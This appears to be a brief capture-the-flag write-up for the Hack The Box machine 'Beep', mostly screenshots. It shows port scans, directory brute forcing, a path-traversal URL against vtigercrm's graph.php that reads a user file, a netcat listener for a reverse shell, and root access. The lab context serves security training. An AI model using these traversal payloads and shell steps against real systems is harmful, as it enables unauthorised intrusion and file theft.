 # ****Beep****

```bash
rustscan -a 10.10.10.7
```
![image](https://github.com/lufffe/Writeups/assets/90646635/a4ca043d-d5c1-4615-a383-7dce9bdd5571)

![image](https://github.com/lufffe/Writeups/assets/90646635/65708e4b-1ee5-4974-8023-a06c5f13bec1)

![image](https://github.com/lufffe/Writeups/assets/90646635/ebf1e642-c7d7-4b5a-9777-5ef589cf0e07)

![image](https://github.com/lufffe/Writeups/assets/90646635/3008bbc4-562c-42e1-b84c-95dddb5f0642)

```jsx
nmap -A -p 22,25,80,110,111,143,443,792,993,995,3306,4190,4445,4559,5038,10000 10.10.10.7
```
![image](https://github.com/lufffe/Writeups/assets/90646635/897e7238-ad67-4f67-ab93-dba6086b81aa)

```bash
gobuster dir -u [https://beep.htb](https://beep.htb/) -w directory-list-2.3-small.txt -t 100 --no-error -k
```
![image](https://github.com/lufffe/Writeups/assets/90646635/76730215-3369-48d9-86f4-271271a4ad2d)


https://10.10.10.7
![image](https://github.com/lufffe/Writeups/assets/90646635/135107e6-c658-456b-8d3f-a15291b16fad)

https://www.exploit-db.com/exploits/37637
![image](https://github.com/lufffe/Writeups/assets/90646635/e4542a46-172f-4725-aa92-b755bfcb31f4)

![image](https://github.com/lufffe/Writeups/assets/90646635/8f2e281e-5677-489a-9944-71f6be365160)

view-source:[https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt&module=Accounts&action](https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//home/fanis/user.txt%00&module=Accounts&action)


Sorry! Attempt to access restricted file.

```bash
sudo netcat -lnvp 4455
```

![image](https://github.com/lufffe/Writeups/assets/90646635/c242711b-d8bf-47c1-9faa-182cd60b4725)

[root@beep ~]# id
uid=0(root) gid=0(root)

```bash
cat /root/root.txt
```
